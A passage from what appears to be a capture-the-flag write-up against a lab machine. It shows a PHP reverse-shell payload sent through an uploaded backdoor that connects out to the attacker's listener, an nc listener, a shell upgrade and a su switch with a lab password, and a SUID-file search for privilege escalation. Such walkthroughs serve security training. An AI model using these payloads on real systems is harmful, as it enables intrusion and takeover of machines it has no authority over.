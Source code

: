     -- Dump completed on 2020-04-22  5:31:35
    </pre>

It is time to get a proper shell. We know that PHP is installed on the box (as
the web application is using PHP). So we use a PHP reverse shell and run
`nc -l -p 4242` on our side.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=php+-r+'$sock%3dfsockopen("10.10.14.226",4242)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs

That will give us a reverse shell as `www-data` without interactivity.
Using `/usr/bin/script -qc /bin/bash /dev/null` we get a better shell with
interactivity and can simply change user with `su theseus` and inputing his
password `Th3s3usW4sK1ng`

Then we can grab the user flag.

    :::text
    nc -l -p 4242
    /bin/sh: 0: can't access tty; job control turned off
    $ /usr/bin/script -qc /bin/bash /dev/null
    www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
    su theseus
    Password: Th3s3usW4sK1ng

    theseus@ubuntu:/var/www/Magic/images/uploads$ cat ~/user.txt
    cat ~/user.txt
    e0d993fb203a25ba31cee6d8aa2a612f

# Root

When looking at the SUID files we see that `sysinfo` is quit recent.

    :::text
    theseus@ubuntu:/var/www/Magic/images/uploads$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; | grep -v snap
    <ype f -exec ls -la {} 2>/dev/null \; | grep -v snap
    -rwsr-xr-- 1 root dip 382696 Feb 11 07:05 /usr/sbin/pppd
    -rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
    -rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
    -rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 149080 Jan 31 09:18 /usr/bin/sudo
    -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
    -rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
    -rwsr-xr-x 1 root root 22528 Jun 28  2019 /usr/bin/arping
    -rwsr-xr-x 1 root root 10312 Dec  9 02:03 /usr/bin/vmware-user-suid-wrapper
    -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-sr-x 1 root root 10232 Dec 18 00:15 /usr/lib/xorg/Xorg.wrap
    -rwsr-xr-x 1 root root 26696 Jan  8 10:31 /bin/umount
    -rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
    -rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
    -rwsr-xr-x 1 root root 43088 Jan  8 10:31 /bin/mount
    -rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
    -rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
